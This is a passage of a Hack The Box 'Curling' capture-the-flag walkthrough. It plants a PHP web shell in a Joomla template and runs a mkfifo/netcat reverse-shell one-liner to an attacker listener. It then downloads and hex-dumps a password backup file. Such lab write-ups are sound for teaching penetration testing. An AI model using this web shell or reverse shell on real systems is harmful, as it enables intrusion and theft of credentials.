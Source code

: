 We can access the admin panel here: http://10.10.10.150/administrator

# User Flag
So to get a shell go to **Extensions** and then **Templates** after that click on the first one ```Beez3 - Default```. Now click on **New File**, write down the name and for the type use **php**. Then click on create.

Add this line to the file ```<?php system($_GET['cmd']); ?>```. Then click on **Save**. Now the page can be accessed at http://10.10.10.150/templates/beez3/<your_shell_name> . We can now run commands by calling the parameter **cmd**:
```
http://10.10.10.150/templates/beez3/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now start a listener. and run this command: ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 4444 >/tmp/f```

```
┌──(kali㉿kali)-[~/Desktop/HTB/Curling]
└─$ curl http://10.10.10.150/templates/beez3/shell.php -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 4444 >/tmp/f'
```

And we got our reverse shell:
```
(pwncat-env) ┌──(kali㉿kali)-[~/Desktop/pwncat]
└─$ pwncat --listen -p 4444                                                                                                               
[19:50:46] received connection from 10.10.10.150:47974
[19:50:46] new host w/ hash a22662bb4b016e036e95fc980b7cce73                                                                                                                         
[19:50:48] pwncat running in /bin/sh
[19:50:50] pwncat is ready 🐈                                                   

(remote) www-data@curling:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's download **password_backup**:
```
(local) pwncat$ download password_backup /home/kali/Desktop/HTB/
```

Content of **password_backup**:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Curling]
└─$ cat password_backup                
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```
